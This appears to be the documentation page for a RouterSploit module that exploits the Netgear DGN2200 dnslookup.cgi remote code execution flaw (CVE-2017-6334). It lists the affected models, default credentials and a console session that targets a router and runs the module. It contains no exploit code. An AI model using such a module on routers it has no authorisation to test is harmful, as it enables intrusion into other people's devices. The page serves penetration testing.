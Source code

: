 # Netgear DGN2200 RCE

## Description
Exploits Netgear DGN2200 RCE vulnerability through dnslookup.cgi resource

## Authors
* SivertPL # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/41459/](https://www.exploit-db.com/exploits/41459/)
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6334](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6334)

## Vulnerable devices
* Netgear DGN2200v1
* Netgear DGN2200v2
* Netgear DGN2200v3
* Netgear DGN2200v4

## Usage
```
rsf > use exploits/netgear/dgn2200_dnslookup_cgi_rce
rsf (Netgear DGN2200 RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   username     admin                Username
   password     password             Password


rsf (Netgear DGN2200 RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Netgear DGN2200 RCE) > run
[*] Running module...
```
